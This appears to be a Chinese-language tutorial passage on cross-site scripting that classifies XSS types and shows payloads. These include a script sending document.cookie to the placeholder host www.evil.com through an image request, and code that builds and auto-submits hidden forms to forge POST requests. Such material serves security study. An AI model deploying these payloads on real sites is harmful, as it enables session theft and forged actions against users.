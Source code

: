 ##### 分类

* 反射型XSS  非持久型的XSS，恶意代码往往是在点击某个地方后执行的

* 存储型XSS  会把输入的XSS存储在服务端，每次访问都可能触发，这类稳定性更强，危害更大

* DOM based XSS  也算反射型XSS，但它攻击的目标是DOM节点

#### XSS进阶

##### XSS Payload

常见的攻击方式是将恶意js脚本放在某个网页上，再在XSS点通过`<script>`标签引入

###### Cookie窃取

```js
var img = document.createElement("img");
img.src = "http://www.evil.com/log?" + escape(document.cookie);
document.body.appendChild(img);
```

这段代码就完成了一个很基础的cookie外带功能，通过向www.evil.com发送图片请求将cookie作为参数外带出去，在后者的HTTP log上就可以看到带出的cookie

###### 构造GET与POST请求

GET请求构造可以参考上面获取图片的方式

POST请求构造则较为复杂

```js
var f = document.createElement("form");
f.action = "";
f.method = "post";
document.body.appendChild(f);

var i1 = document.createElement("input");
i1.name = "ck";
i1.value = "JiUY";
f.appendChild(i1);


var i2 = document.createElement("input");
i2.name = "md_text";
i2.value = "testtesttest";
f.appendChild(i2);

f.submit();
```

上述方法其实是手动构造表单。也可以直接通过写HTML构造表单

```js
var dd = document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML = '<form action="" method="post" id="xssform" name="mbform">' + '<input type="hidden" value="JiUY", name="ck"/>' + '<input type="text" value="testtesttest", name="mb_text"/>' + '</form>'

document.getElementById("xssform").submit();
```
